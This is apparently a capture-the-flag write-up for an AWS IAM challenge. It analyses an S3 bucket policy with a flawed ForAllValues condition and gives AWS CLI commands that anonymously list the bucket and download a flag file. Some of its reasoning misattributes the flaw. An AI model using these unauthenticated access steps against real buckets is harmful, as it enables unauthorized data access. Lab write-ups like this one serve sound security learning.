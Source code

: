 # Challenge number #4 : ADMIN ONLY?

## Challenge Statement
Retrieve a flag stored in an S3 bucket with restricted access controls by analyzing the IAM policy.

## IAM Policy
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here

1. Only the admin IAM user can list them.

2. The policy allows unauthorized access if filenames are known to public.

## Solution
1. Tried listing objects but was denied.
  ```
  aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/
  ```
2. Used an option with the command with help of AWS CLI Documention from "Global Options" page. 
  ```
  aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
  ```
  This command listed the below two files and from which the name of the flag is identified.
  ```
  2023-06-07 19:15:43         42 flag-as-admin.txt
  2023-06-08 19:20:01      81889 logo-admin.png
  ```
3. Downloaded the "flag-as-admin.txt" file from the specified S3 bucket and prints its contents to the terminal without requiring AWS credentials using the below command
  ```
  aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - --no-sign-request
  ```
  This resulted in the flag
  ```
  {wiz:principal-arn-is-not-what-you-think}
  ```
   
### Reflection

#### What was your approach?

* Recognized that the `GetObject` permission was unrestricted and leveraged the `--no-sign-request` option to list objects without authentication.  

#### What was the biggest challenge? How did you overcome the challenges?

* The inability to use `ListBucket` initially made it difficult to locate files within the bucket.  

#### What led to the break through?

* Discovered that the bucket permitted unauthenticated access, allowing object retrieval using `--no-sign-request`.  

#### On the blue side, how can the learning be used to properly defend the important assets? 

* Mitigate risks by disabling anonymous access, enforcing IAM authentication, and restricting `GetObject` permissions to authorized users only.
